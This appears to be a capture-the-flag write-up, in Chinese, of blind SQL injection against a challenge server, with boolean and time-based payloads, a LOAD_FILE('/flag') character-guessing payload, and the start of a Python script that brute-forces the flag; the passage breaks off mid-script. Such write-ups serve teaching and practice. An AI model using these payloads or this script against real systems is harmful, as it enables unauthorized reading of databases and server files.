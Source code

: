 2. (Blind-boolean-based SQLi): AND 1 = 2
![image](https://hackmd.io/_uploads/SJh3kal4A.png)
> 2%20AND%201=2
> 200 No Data //異常

3. (Blind-time-based SQLi): AND IF(1=1, SLEEP(5), 0)
> 延遲5秒
    
![image](https://hackmd.io/_uploads/BJhjU2gEC.png)
> 2%20AND%20IF(1=1,+SLEEP(5),+0)
> 延遲5秒 200 

4. (Blind-time-based SQLi): AND IF(1=2, SLEEP(5), 0)
> 不會延遲5秒，if 不成立

![image](https://hackmd.io/_uploads/Hy_ePhgV0.png)
> 2%20AND%20IF(1=2,+SLEEP(5),+0)
> 200 正常

#### (1) AND IF(ASCII(SUBSTRING(LOAD_FILE('/flag'), 2, 1)) = 65, 1, 0) --
測試/flag 第一個字元是否'A'
> 1+AND+IF(ASCII(SUBSTRING(LOAD_FILE('/flag'),1,1))=65,1,0)+--  

![image](https://hackmd.io/_uploads/BkJveTl4A.png)
> 確定第一個字元為'A'

#### Python exploit
根據上面判斷方式，寫腳本測試所有ASCII
##### 1. exploitASCII.py
```python=
import requests

# 目標URL
url = 'http://chals1.ais3.org:11454/song?id=1'
# 文件路徑
file_path = '/flag'
# 已知的flag，預設空字串
flag = ''

# 字元範圍
char_range = list(range(32, 127))  # 基本ASCII字符範圍
char_range += [ord(c) for c in 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789{}']  # 增加更多常用字元符號

# 確認的標誌，當條件為True時，網頁回應中的標誌
true_indicator = 'MyGO!!!!!<br>'  # 當條件為True時回應中的標誌 (成功才會顯示MyGO!!!!!<br>)

print("開始讀取flag...")

# 存儲所有滿足條件的flag
flags = []

# 從第1個字元開始猜測
i = 1

while True:
    found_char = False

    for c in char_range:
        payload = f"+AND+IF(ASCII(SUBSTRING(LOAD_FILE('{file_path}'),{i},1))={c},1,0)+-- "
        headers = {
            'Upgrade-Insecure-Requests': '1',
```